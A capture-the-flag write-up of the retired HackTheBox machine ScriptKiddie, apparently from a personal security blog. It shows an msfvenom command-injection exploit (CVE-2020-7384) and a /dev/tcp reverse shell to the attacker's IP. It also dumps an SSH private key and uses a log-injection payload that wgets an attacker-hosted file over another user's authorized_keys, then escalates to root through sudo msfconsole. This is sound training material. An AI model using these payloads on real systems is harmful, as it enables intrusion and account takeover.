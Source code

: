 Title:HTB: ScriptKiddie
Date: 06-07-2021 10:25
category:security
tags:security, boot2root, HTB, msfvenom, nmap, msfconsole
meta:security, boot2root, HTB, msfvenom, nmap, msfconsole

<img class="align-left" src="/media/2021.06/sk_card.png" alt="ScriptKiddie Card" width="262">

This is a writeup about a retired HacktheBox machine:
[ScriptKiddie](https://www.hackthebox.eu/home/machines/profile/314) publish on
February 6, 2021 by
[0xdf](https://www.hackthebox.eu/home/users/profile/4935).
This box is rated as easy box the user part implies to use CVE-2020-7384, the
root part is just abusing a bash script and using msfconsole.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

Let us start as always by a `nmap` scan. Only port 22 (SSH) and 5000 with a HTTP
service are open.

    :::text
    # Nmap 7.91 scan initiated Sun Feb  7 08:50:44 2021 as: nmap -p- -sSV -oN nmap 10.129.94.194
    Nmap scan report for 10.129.94.194
    Host is up (0.011s latency).
    Not shown: 65533 closed ports
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Sun Feb  7 08:51:09 2021 -- 1 IP address (1 host up) scanned in 24.16 seconds


## Web

The webpage seems to be a "hacker" personal page with a few wrapper around
classical tools as `nmap`, `msfvenom` and `searchsploit`.

![Homepage](/media/2021.06/sk_01.png)

The "template file" option with `msfvenom` is strange. After a few Google research we found
about CVE-2020-7384 which is "msfvenom APK template command injection" and has
[a public exploit available](https://www.exploit-db.com/exploits/49491)


We change the payload to perform a `wget` on our python server

    :::python
    # Change me
    payload = 'wget 10.10.14.64:8000'

We got a hit on our local python HTTP which confirm our RCE.

    :::text
    kali@kali:/tmp$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.94.194 - - [07/Feb/2021 09:27:09] "GET / HTTP/1.1" 200 -

We change the payload again for a reverse shell.

    :::python
    payload = 'sh -i >& /dev/tcp/10.10.14.64/4433 0>&1'

We run netcat to catch it and got the user flag.

    :::text
    kali@kali:/tmp$ nc -l -p 4433
    id
    sh: 0: can't access tty; job control turned off
    $ uid=1000(kid) gid=1000(kid) groups=1000(kid)
    $ cd
    $ cat user.txt
    51573bc36ae7c15d3bb11c3b043a5dea

# Root

## Persistance

We look at our user home folder and get the SSH private key

    :::text
    $ ls -al
    total 60
    drwxr-xr-x 11 kid  kid  4096 Feb  3 11:49 .
    drwxr-xr-x  4 root root 4096 Feb  3 07:40 ..
    lrwxrwxrwx  1 root kid     9 Jan  5 20:31 .bash_history -> /dev/null
    -rw-r--r--  1 kid  kid   220 Feb 25  2020 .bash_logout
    -rw-r--r--  1 kid  kid  3771 Feb 25  2020 .bashrc
    drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .bundle
    drwx------  2 kid  kid  4096 Feb  3 07:40 .cache
    drwx------  4 kid  kid  4096 Feb  3 11:49 .gnupg
    drwxrwxr-x  3 kid  kid  4096 Feb  3 07:40 .local
    drwxr-xr-x  9 kid  kid  4096 Feb  3 07:40 .msf4
    -rw-r--r--  1 kid  kid   807 Feb 25  2020 .profile
    drwx------  2 kid  kid  4096 Feb  3 07:40 .ssh
    -rw-r--r--  1 kid  kid     0 Jan  5 11:10 .sudo_as_admin_successful
    drwxrwxr-x  5 kid  kid  4096 Feb  7 14:25 html
    drwxrwxrwx  2 kid  kid  4096 Feb  3 07:40 logs
    drwxr-xr-x  3 kid  kid  4096 Feb  3 11:48 snap
    -r--------  1 kid  kid    33 Feb  7 13:48 user.txt
    $ ls .ssh/
    authorized_keys
    id_rsa
    id_rsa.pub
    $ cat .ssh/authorized_keys
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCt/
    MXWipZH4vmE0lLycTlwk0eFcEQilnSCwpQoLA9QEiFAMvopNThWyjGkst6HNPdDvSDlJEfTtW4PaOFA
    seUICcwuidMXc4xepu1t0hrfv5Wn7SiwQwIDwE0DvRRSpLIr9I0wfjjEPnvc4y7uuMvsf0hegZLMnChg
    stWWCw99DS5q0YdXxkIC7eKlI90nHyUHL3ULwXDBk6NWhPmJ90yDaFC4iD0yVP3xmjKjl0iotkqbhKhR
    AD8bUINZ7anXTw4Hb0iF5tMAttB8JbLts5zvgQtYrciKE4Qnl4F+MO5yg3G03s9V69K4R+TXmI4TZKUH
    fEpNnReQ+73uOqgjH5VeZr0TmSLEszfFfXRcv7t4jxOboYnS+lgR1V2iGHzSle+nAlVLHqlwP5RTtwaO
    wE0nbykigyz/h4KNCn0rU69fYWSrkcFPYOSm92QKmaMJuXqnycjuqLmHMD2XKSuhlpgD/VmQL34C7pju
    4h+/78qK50+itG0FCiSy6IRd5DIfTkU= kid@scriptkiddie
    $ cat .ssh/id_rsa
    -----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEArfzF1oqWR+L5hNJS8nE5cJNHhXBEIpZ0gsKUKCwPUBIhQDL6KTU4
    <SNIP>
    sOeM4jMTD4DJbb/8Jsh6yzW45V3bgPp1Hm4nI3AZ8SjSI4VqtO9CcDKtPnvh3/jm5VEx9W
    bK3NNrAo9t2tlfAAAAEGtpZEBzY3JpcHRraWRkaWUBAg==
    -----END OPENSSH PRIVATE KEY-----

## scanlosers

We can now  directly connect using SSH. Looking at the accessible files we found
that the `pwn` user has a script `scanlosers.sh` readable by our user. This
script read a log file containing "hacking" attempts and run a `nmap --top10` on
it.

    :::text
    $ ssh kid@10.129.94.194 -i sc_id_rsa
    <SNIP>

    kid@scriptkiddie:~$ cat ../pwn/scanlosers.sh
    #!/bin/bash

    log=/home/kid/logs/hackers

    cd /home/pwn/
    cat $log | cut -d' ' -f3- | sort -u | while read ip; do
        sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
    done

    if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi


We download /home/kid/.ssh/authorized_keys localy and rename it to test a few
payload locally. The `cut -d' ' -f3-` means that the 3 first "words"
(characters separated by a space) will be dropped.

The idea is to execute a payload in order to add our SSH key to the "pwn"
user. As always we start by a simple `wget` to ensure the RCE. After a few
attempt we found the following payload that we add to the `hackers` file:

    :::text
    echo 'q w e 127.0.0.1 127.0.0.1 ; wget 10.10.14.64:8000/a -O /home/pwn/.ssh/authorized_keys  ; #' > ../kid/logs/hackers

As the "kid" private key is now also authorized for the "pown" user, we connect
using directly SSH.

    :::text
    $ ssh pwn@10.129.94.194 -i sc_id_rsa
    <SNIP>
    pwn@scriptkiddie:~$ id
    uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)

## msfconsole

Our "pown" user can run `msfconsole` as "root" without any password, which
quickly give us a shell using the `bash` msf command allowing us to get the root
flag.

    :::text
    pwn@scriptkiddie:~$ sudo -l
    Matching Defaults entries for pwn on scriptkiddie:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User pwn may run the following commands on scriptkiddie:
        (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
    pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole

    <SNIP>
    msf6 > bash
    [*] exec: bash

    root@scriptkiddie:/home/pwn# id
    uid=0(root) gid=0(root) groups=0(root)
    root@scriptkiddie:/home/pwn# cat /root/root.txt
    b4ccca123e8efc9cc65296e42ed4cabf


# Wrapping up

An easy box exploiting a few mechanisms. The msfvenom exploit was fun to use.

